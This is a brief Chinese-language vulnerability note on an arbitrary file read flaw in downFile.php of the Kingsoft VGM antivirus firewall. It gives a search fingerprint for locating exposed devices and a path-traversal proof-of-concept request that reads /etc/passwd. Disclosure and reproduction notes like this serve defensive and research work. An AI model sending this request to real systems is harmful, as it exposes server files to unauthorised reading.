

# 金山 VGM防毒墙 downFile.php 任意文件读取漏洞

## 漏洞描述

金山 VGM防毒墙 downFile.php文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
金山 VGM防毒墙
```

## 网络测绘

```
"金山VGM"
```

## 漏洞复现

登录页面


验证POC

```
/downFile.php?filename=../../../../etc/passwd
```

